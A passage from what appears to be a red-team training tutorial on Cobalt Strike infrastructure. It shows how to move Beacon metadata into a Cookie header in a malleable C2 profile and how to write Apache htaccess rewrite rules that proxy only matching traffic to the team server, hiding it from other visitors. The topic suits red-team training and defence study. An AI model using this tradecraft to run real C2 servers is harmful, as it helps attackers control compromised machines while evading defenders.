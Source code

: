 Now if we try and curl our payload at `/a`, we get served our dummy content instead.

## Cookie Rules

Some HTTP(S) C2 profiles use the cookie header to carry Beacon metadata information.  The webbug profile that we're currently using places it in the URL, so let's change it to use a cookie instead.

The metadata block currently looks like this:

```
metadata {
    netbios;
    prepend "__utma";
    parameter "utmcc";
}
```

This appears in the URL as:  &`utmcc=__utmakdmjdffgcepcddbgbegpogkmmdadmcdj`.

Change it to:

```
metadata {
    netbios;
    prepend "SESSIONID=";
    header "Cookie";
}
```

Then it will appear in the HTTP request as:  `Cookie: SESSIONID=kaekkgokannieolldcnhgfahhifcegaj`.

Making modifications to the C2 profile also requires you to restart the team server, regenerate a payload and execute a new Beacon.  Before we touch the htaccess file again, we can prove that we can still hit the team server on a random URI

```
curl https://infinity-bank.com/test
```

And we should see a request against /test on the teamserver

Now let's add a new rewrite condition to the htaccess file

```
RewriteCond %{HTTP_COOKIE} SESSIONID
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```

This new condition will ensure that a cookie called SESSIONID is present in the request for it to be proxied to the team server.  The Beacon will continue to check-in, because it has this cookie.  But our random GET request will not be proxied and results in a 404 from Apache.

## URI and Query rules

we can write rules that match the exact parameters of our C2 traffic profile

```
./c2lint c2-profiles/normal/webbug.profile
```
